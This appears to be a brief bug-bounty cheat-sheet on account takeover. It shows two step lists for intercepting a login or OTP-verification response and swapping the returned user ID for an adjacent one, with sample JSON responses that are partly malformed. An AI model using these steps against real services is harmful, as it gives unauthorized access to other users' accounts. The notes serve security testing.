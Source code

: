### Account Takover


##### Tips 1
1. Login with original user 
2. Intercept Response 
3. **{"success":false,","data":{"address":[],"customer":{"id":318620,"full_name":null,"email":original@gmail.com","phone":"+62xxxxxxxxxxx","is_login":1,"last_login":"2021-04xxxxxxx","created_at":2021-04xxxxxx,"updated_at":2021-04xxxxx}},"message":"Csutomer login successfully"}**
4. Change **"id":"318620"** To Another ID exp.318621

---
##### Tips 2
1. Login with original user 
2. Intercept Response 
3. **{"success":true,"msg":"otp is Verified successfully.","user_id":"6342","redirect_uri":"create_package"}**
4. Change **"user_id":"6342"** To Another ID exp.6343

---
